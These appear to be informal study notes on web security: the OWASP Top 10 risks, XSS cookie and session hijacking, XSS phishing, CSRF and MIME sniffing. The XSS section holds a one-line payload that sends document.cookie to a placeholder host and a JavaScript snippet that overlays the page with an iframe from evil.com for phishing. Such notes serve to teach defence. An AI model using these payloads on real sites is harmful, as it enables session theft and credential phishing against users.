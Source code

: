 ## compare 2013 to 2017 changed
- microservice replace monolithic application, use restful API => no longer trusted caller
- use SPA in JS framework, highly modular code => more client side functionality
- Node.js running server side

# top 10 security risk
## 1. injection
SQL, NoSQL, OS, LDAP injection as part of command/query

## 2. broken authentication
application function related to authentication and session management implemented incorrectly
-> attackers compromise password, keys, session tokens
### prevent
1. generate random session ID, should not be URL
2. limit login 
3. avoid default credential

### attack method
1. use list of known passwords to attack
2. continued use of passwords
3. improper timeout -> not yet logout

## 3. sensitive data exposure
1. no extra protection, eg. encryption
### consideration
- HTTP, SMTP, FTP -> transfer in clear text
- old/weak cryptographic algorithm
- enforced encryption?
### prevent
classify data processed, stored
don't store sentiive data unnecessarily
encrpyt eg. TLS with PFS ciphers, user HSTS
store passwords using salted hashing functions
### attack method
1. SQL injection when retrieve credit card no. in clear text
2. site not enforcing TLS -> downgrade to HTTP, replay cookie
3. db use simple hashes/unsalted to store passwords

## 4. XML external entities
poorly configured XML processor evaluate external entity reference within XML document

## 5. broken access control
restrictions on users not properly enforced
eg. access other users' account, view sensitive files

## 6. security misconfiguration
insecure default configuration, incomplete / ad hoc config, open cloud storage

## 7. cross site scripting

## 8. insecure deserialization
## 9. using components with known vulnerabilities
## 10. insufficient logging & monitoring


# conventional attack
SQL injection, command line attack, upload vulnerablility

# XSS injection
## Cookie hijack
`document.location="http://www.test.com/cookie.asp?cookie="+document.cookie`
script to steal cookie data, store somewhere else
replay attack

## session hijack
session is based on cookie
write XSS to server (eg. leave in comment), when admin login to backend to check comment,
  will trigger XSS loophole
listen to all http package using some tool, get post data

## phishing (網絡釣魚)
1. construct fake form
2. script record down data 
3. XSS phishing expliot
```js
document.body.innerHTML = (
  '<div style="position:absolute; top:0px; left:0px; width:100%; height:100%;">'+
  '<iframe src=http://www.evil.com/>phishing.html width=100% height=100%>'+
  '</iframe></div>'
);
```
### XSS redirect phishing
### XSS html inject phishing
### Iframe phishing
### Flash phishing
upload flash file to server (eg. fake login frame), then use `<object>/<embed>` to reference flash


# CSRF (cross-site request forgery)
cheat user to access a website that already certified
since it's certified, website will think it's user's operation 

attacker can embed request url in something, if user click on it, will trigger other unwilling operation

server cannot certify certain operation really from user's will

## protection
1. check referer field
the field can be modified
2. token for identification
generate pseudo random number


# MIME sniffing
in absence of MIME type / browser think MIME type incorrect
  - browser perform MIME sniffing
  - look at bytes of resources























